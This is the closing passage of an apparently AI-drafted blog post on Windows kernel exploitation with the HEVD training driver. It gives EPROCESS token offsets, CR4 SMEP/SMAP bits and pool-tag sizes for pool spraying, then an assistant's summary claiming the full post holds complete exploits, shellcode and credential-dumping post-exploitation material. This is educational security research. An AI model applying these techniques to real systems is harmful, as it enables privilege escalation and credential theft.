EPROCESS + 0x4B8            -         Token (EX_FAST_REF)
EPROCESS + 0x5A8            -         ImageFileName (char[15])

System call instruction:    syscall (x64) / sysenter (x86) / int 0x2e (legacy)
User mode CS:               0x33 (x64)
User mode SS:               0x2B (x64)
Kernel mode CS:             0x10 (x64)
Kernel mode SS:             0x18 (x64)

CR4 bit 20:                 SMEP (1=enabled, 0=disabled)
CR4 bit 21:                 SMAP (1=enabled, 0=disabled)
```

### Common Pool Tags

```text
Tag       Description                    Size (x64)
────      ─────────────────────────────  ──────────
Hack      HEVD vulnerable object         0x200 + header
Even      Event object                   0x40  + header
IoCo      IoCompletionReserve            0x60  + header
Ntfp      Named pipe attributes          Variable
Toke      Token object                   0x2C0 + header
Proc      Process object (EPROCESS)      Variable
File      File object                    0x128 + header
Key       Registry key object            Variable
```

---

## Conclusion

Kernel exploitation is the pinnacle of offensive security research. It requires deep understanding of operating system internals, CPU architecture, memory management, and creative problem-solving.

### Key Takeaways

| Concept | What You Learned |
|---------|-----------------|
| **Vulnerability Discovery** | IOCTL fuzzing, reverse engineering dispatch handlers |
| **Exploit Primitives** | Stack overflow, UAF, write-what-where, pool overflow |
| **KASLR Bypass** | NtQuerySystemInformation, EnumDeviceDrivers |
| **SMEP Bypass** | ROP chains with kernel gadgets, data-only attacks |
| **Token Stealing** | Walking ActiveProcessLinks, copying SYSTEM token |
| **Pool Manipulation** | Defragmentation, hole creation, pool spray |
| **Clean Return** | IRETQ, state restoration, SWAPGS |
| **Crash Analysis** | WinDbg commands, bug check interpretation |
| **Post-Exploitation** | Credential harvesting, persistence, lateral movement |

> **The best kernel exploit researchers are not those who know the most techniques — they are those who understand the operating system deeply enough to see vulnerabilities where others see normal code.**
{: .prompt-tip }

**Start with HEVD, progress through each vulnerability type, and eventually you will be ready to analyze and develop exploits for real CVEs.**

---

## References

- [HackSys Extreme Vulnerable Driver (HEVD)](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
- [Connor McGarr — Exploiting HEVD Series](https://connormcgarr.github.io/)
- [j00ru — Windows Kernel Pool Internals](https://j00ru.vexillium.org/)
- [Microsoft — Kernel Security Mitigations](https://learn.microsoft.com/en-us/windows/security/)
- [Google Project Zero — Windows Kernel Research](https://googleprojectzero.blogspot.com/)
- [MSRC — Mitigating Kernel Vulnerabilities](https://msrc.microsoft.com/blog/)
- [Windows Internals 7th Edition](https://learn.microsoft.com/en-us/sysinternals/resources/windows-internals)
- [CVE-2021-1732 Analysis](https://googleprojectzero.github.io/0days-in-the-wild/)
- [Offensive Security AWE/EXP-401](https://www.offsec.com/)
- [Exodus Intelligence Blog](https://blog.exodusintel.com/)

---

*Last updated: January 25, 2024*
*Author: Security Researcher*
*License: MIT — For educational and authorized research purposes only*
````

---

**Save this file as `2024-01-25-kernel-exploitation-primitives-to-system.md`** in your Chirpy Jekyll blog's `_posts/` directory.

### Everything included:

| Component | Count / Status |
|---|---|
| **Mermaid diagrams** | 12 diagrams (flows, sequences, graphs) ✅ |
| **Complete Python exploits** | 5 full exploits with all code ✅ |
| **C/C++ kernel code** | Vulnerable driver, shellcode, API calls ✅ |
| **x64 Assembly** | Token stealing, IRETQ return, ROP chains ✅ |
| **WinDbg sessions** | Full crash analysis walkthroughs ✅ |
| **Real CVE analysis** | CVE-2021-1732 walkthrough ✅ |
| **Post-exploitation** | Credential dump, persistence, lateral movement ✅ |
| **Chirpy callouts** | info, warning, danger, tip ✅ |
| **Tables** | Bug checks, offsets, tools, study path ✅ |
| **Pool spray techniques** | IoCompletionReserve, Event objects ✅ |
| **SMEP bypass** | CR4 flip ROP + data-only attacks ✅ |
| **Clean return** | IRETQ with state save/restore ✅ |
